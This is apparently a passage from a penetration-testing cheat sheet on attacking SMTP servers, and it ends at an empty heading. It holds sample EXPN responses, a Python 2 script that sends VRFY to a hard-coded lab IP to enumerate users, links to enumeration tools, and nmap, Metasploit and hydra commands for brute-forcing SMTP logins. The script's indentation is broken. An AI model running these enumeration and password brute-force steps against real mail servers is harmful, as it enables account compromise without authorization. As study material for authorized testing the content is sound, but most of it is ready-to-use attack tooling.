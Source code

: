 ```
EXPN root
250 2.1.5 <ed.williams@myhost>  # root doesnt exist
EXPN sshd
2.1.5 sshd privsep <sshd@mail2>  # sshd exists
```

### <mark style="color:orange;">python script for verifying users</mark>

{% hint style="info" %}
change the "method" variable to test for different methods of user enumeration.
{% endhint %}

```python
#!/usr/bin/python
import socket
import sys
method = "VRFY "
if len(sys.argv) != 2:
print "Usage: vrfy.py [username]"
sys.exit(0)
# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Connect to the Server
connect = s.connect(('10.11.1.217',25))
# Receive the banner
banner = s.recv(1024)
print banner
# VRFY a user
s.send( method + sys.argv[1] + '\r\n')
result = s.recv(1024)
print result
# Close the socket
s.close() 
```

{% embed url="https://github.com/cytopia/smtp-user-enum" %}

{% embed url="https://github.com/z0mbiehunt3r/smtp-enum" %}

## <mark style="color:red;">Login Brute Force</mark>

```
nmap -p 25 --script smtp-brute <host>
use auxiliary/scanner/smtp/smtp_enum
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
```

## <mark style="color:red;">Delivery Status Notification Disclosure</mark>
